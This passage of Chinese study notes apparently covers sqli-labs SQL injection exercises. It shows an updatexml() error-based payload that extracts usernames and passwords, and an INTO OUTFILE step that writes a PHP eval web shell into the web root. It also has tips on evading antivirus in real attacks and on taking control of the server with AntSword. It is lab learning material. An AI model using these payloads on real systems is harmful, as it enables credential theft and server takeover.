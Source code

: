 2. ```sql
   union select 1,2,updatexml('yemaster', substring(concat(0x7e, (select group_concat(username,'~',password) from users)),4,30),"aaa")
   ```

3. 就是比 extractvalue 多一项无用的参数



利用 updatexml() 报错注入，原理与 extractvalue() 一致

```sql
select updatexml('XML_document','Xpath_string','New_content') from xml
```

用于更新 xml 文件内容

同样在 xpath 中第一位改为 ~ 用于报错

## less-7_outfile
### 文件注入

1. ```sql
   SHOW VARIABLES LIKE '%secure%'
   ```

2. 查看是否具有文件写入权限：

   | Variable_name            | Value |
   | ------------------------ | ----- |
   | require_secure_transport | OFF   |
   | secure_auth              | ON    |
   | secure_file_priv         | NULL  |

3. 主要关注 secure_file_priv，priv 即 privilege，这是一个用于指定数据库服务器上允许执行LOAD DATA INFILE和LOAD XML语句时的文件路径限制的系统变量。如果设置了这个变量，那么只有在指定路径下的文件才能被加载。当前情况下，它被设置为NULL，这意味着没有明确指定的路径限制，任何地方的文件都**不**可以被加载。测试时需要在 my.ini 中配置 secure_file_priv="" 空，才能使任意地方文件都可以加载。

4. 注入木马

5. ```sql
   select 1,2,'<?php @eval($_POST["nanamo"])?>' into outfile "C:\\phpstudy_pro\\WWW\\hackin.php"
   ```

6. Linux 服务器 可能的路径："/var/www/html/test/"

7. 实战时需要考虑绕过木马检测，这种一句话木马很快就会被 windows 自带杀毒软件杀掉

8. 用 antsword 连接，获取服务器控制权



## less-8_bool
### 布尔盲注
